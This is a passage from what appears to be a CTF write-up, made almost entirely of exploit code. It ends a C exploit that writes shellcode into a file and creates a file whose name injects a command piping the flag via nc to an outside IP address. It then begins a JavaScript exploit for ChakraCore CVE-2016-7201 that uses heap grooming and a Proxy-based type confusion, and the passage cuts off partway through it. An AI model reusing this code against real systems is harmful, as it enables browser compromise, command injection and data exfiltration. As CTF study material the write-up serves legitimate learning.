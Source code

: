```
char* b=malloc(0x3000);memset(b, 0x90, 0x3000);
memcpy(b+0x3000-sizeof(code), code, sizeof(code));
lseek(fd, 0x400000, SEEK_SET);
write(fd, b, 0x3000);*/
int fd2 = open("/home/ctf/oj/src/;nc 101.200.138.31 31337 &lt; flag;.c", O_RDWR|O_CREAT);
if(fd2 &lt;0) printf("open %dn", fd2);
puts("Finished");
return 0;
}
```

**Baby0day**

chakraCore漏洞利用，CVE-2016-7201

Exploit:



```
// arrrrrrrrrgh, my crappy exploit!!!
function gc()
{
var gc_arr = [];
for(var i=0;i&lt;0x350000;i++) {
gc_arr.push([]);
}
gc_arr = null;
}
var count = 512;
var defrag_arr = new Array(count);
function u32(val)
{
if(val &gt;= 0) return val;
return 0x100000000 + val;
}
function makeqword(lo,hi) {return u32(lo)+ ((u32(hi)) * 0x100000000);}
function makesigned(val) {return (val)|0;}
function hiword(val) {return makesigned((val)/0x100000000);}
function loword(val) {return makesigned((val)&amp;0xffffffff);}
for(var i=0;i&lt;count;i++) {
defrag_arr[i] = new Array(
0x11111111,0x22222222,0x33333333,0x44444444,
0x55555555,0x66666666,0x77777777,0x7fffffff,
0x31337,0x31337,0x31337,0x31337, 
0x31337,0x31337,0x31337,0x31337,
);
}
var evilarr = new Array(console.log);
evilarr.length = defrag_arr[0].length;
evilarr.__proto__ = new Proxy({}, {getPrototypeOf:function(){return defrag_arr[count/2];}});
evilarr.__proto__.reverse = Array.prototype.reverse;
evilarr.reverse();
//var seg = evilarr[0];
var vtable = evilarr[6];
var arrtype = evilarr[5];
var uint32arr = new ArrayBuffer(0x10);
//var a = evilarr[8];
var karr = new Array(
0x11111111,0x22222222,0x33333333,0x44444444,
0x55555555,0x66666666,0x77777777,0x7fffffff,
0x31337,0x31337,0x31337,0x31337, 
0x31337,0x31337,0x31337,0x31337
);
var karr2 = new Array(
0x11111111,0x22222222,0x33333333,0x44444444,
```